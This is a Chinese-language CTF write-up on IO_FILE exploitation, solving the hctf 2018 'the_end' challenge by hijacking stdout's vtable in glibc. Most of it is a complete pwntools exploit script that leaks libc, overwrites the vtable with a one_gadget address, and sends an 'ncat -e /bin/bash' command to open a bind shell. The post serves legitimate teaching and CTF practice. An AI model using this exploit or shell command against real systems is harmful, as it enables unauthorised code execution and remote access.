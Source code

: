 ```yaml
---
title: 浅析 IO_FILE 利用
categories:
  - linux_pwn
tags:
  - Null
---
```


`IO_FILE` 是一个很重要的技巧，在 `pwn` 中给我们提供一个其他 `GetShell` 的思路。



# 0x1 漏洞原理

暂无





# 0x2 漏洞利用



## 0x1 hctf 2018 - the_end && fake vtable

日常 `checsec` 一下：

```sh
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

看到这里心里咯噔一下，难道是个栈溢出？



### 程序分析

事实证明我想多了，流程图如下：

![the_end_flow_chart](/image/2019-04-07-linux_pwn_io_file/the_end_flow_chart.jpg)

这里条件限制的很死啊，最多可以给一个地址写五个字节，改返回地址已经不怎么现实了，找找 `exit` 函数有什么可以利用的吧。

![exit_process](/image/2019-04-07-linux_pwn_io_file/exit_process.jpg)

### 程序利用

看到这里，怎么利用，基本就呼吁而出了，我们可以通过更改 `stderr` 或者 `stdout` 的 `vtable` 表使其指向我们可控的地址，然后在新 `vtable` 更改所对应的函数位置即可。



`poc` ：

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def changed_content(exp_file, change_addr, change_value):
    print(hex(ord(change_value)))
    exp_file.send(p64(change_addr)+change_value)


def main():
    debug = 0
    if debug:
        exp_file = process("/home/who/Desktop/the_end")
    else:
        exp_file = remote("127.0.0.1", 9999)
    libc_file = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    one_gadget_offset = 0xf02b0
    
    # Get base address of libc
    sleep_addr = int(exp_file.recvuntil(";)", drop=True).split("here is a gift ")[1][:14], 16)
    libc_addr = sleep_addr - libc_file.symbols['sleep']
    one_gadget_addr = libc_addr + one_gadget_offset
    stdout_addr = libc_addr + libc_file.symbols['_IO_2_1_stdout_']
    stout_old_vtable = stdout_addr + 0xd8
    stderr_addr = libc_addr + libc_file.symbols['__malloc_hook']
    stdout_new_vatble = stderr_addr - 0x68
    log.info("sleep_addr:{addr}".format(addr=hex(sleep_addr)))
    log.info("libc_addr:{addr}".format(addr=hex(libc_addr)))
    log.info("stdout_addr :{addr}".format(addr=hex(stdout_addr)))
    log.info("stout_old_vtable :{addr}".format(addr=hex(stout_old_vtable)))
    log.info("one_gadget_addr:{addr}".format(addr=hex(one_gadget_addr)))
    log.info("stdout_new_vatble:{addr}".format(addr=hex(stdout_new_vatble)))

    # Change stdout_vtable to __malloc_hook - 0x68
    changed_content(exp_file, stout_old_vtable, chr(int(hex(stdout_new_vatble)[12:], 16)))
    changed_content(exp_file, stout_old_vtable+1, chr(int(hex(stdout_new_vatble)[10:12], 16)))
    
    # Change vtable->setvbuf to onegadget
    changed_content(exp_file, stdout_new_vatble+0x58, chr(int(hex(one_gadget_addr)[12:], 16)))
    changed_content(exp_file, stdout_new_vatble+0x59, chr(int(hex(one_gadget_addr)[10:12], 16)))
    changed_content(exp_file, stdout_new_vatble+0x5a, chr(int(hex(one_gadget_addr)[8:10], 16)))

    # Now, we get shell!
    exp_file.sendline("ncat -e /bin/bash -klp 5555")
    exp_file.interactive()


if __name__ == '__main__':
    main()
```

